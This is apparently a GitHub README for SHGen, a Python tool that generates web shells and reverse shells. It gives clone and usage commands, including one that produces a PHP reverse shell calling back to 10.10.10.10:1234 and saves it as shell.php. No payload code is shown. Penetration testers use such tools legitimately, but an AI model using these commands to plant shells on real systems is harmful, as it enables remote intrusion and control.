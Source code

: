 # SHGen 💀


SHGen is a Python tool that can generate web shells and reverse shells with a single command. It offers 70+ payloads written in a hundred programming languages, including Python, PHP, Java, Ruby, Haskell, Lua, C, shell scripts, and more.

Screenshot
----

![Screenshot](https://raw.githubusercontent.com/batata902/shgen/refs/heads/pictures/revshellsc.png)

List of all reverse shell payloads

Installation
----

You can download SHGen just cloning this github repository:

    git clone https://github.com/batata902/shgen.git

SHGen is written entirely in Python.

Usage
----

Before choosing your payload, you must specify the type of shell you want to generate (webshell or revshell).

    python3 shgen.py revshell

or

    python3 shgen.py webshell

Listing payloads options
----
After this you can list all payload options, for example:

    python3 shgen.py revshell --list

Output
![Output](https://raw.githubusercontent.com/batata902/shgen/refs/heads/pictures/revshellsc.png)

Print the generated code or save it to a file
----
If you type the -o argumment, SHGen will not print it in the screen. If -o argumment was not given, SHGen will print the code in the screen.

Example (no output file):

    python3 shgen.py revshell -s php-pentestmonkey --lhost 10.10.10.10 --lport 1234 

Output
![NoFileOutput](https://raw.githubusercontent.com/batata902/shgen/refs/heads/pictures/codeoutput.png)

----
Example (with output file):

    python3 shgen.py revshell -s php-pentestmonkey --lhost 10.10.10.10 --lport 1234 -o shell.php

Output
![FileOutput](https://raw.githubusercontent.com/batata902/shgen/refs/heads/pictures/fileoutput.png)

Special Thanks
----
Thanks to Messias Eric for the knowledge necessary for this simple project.
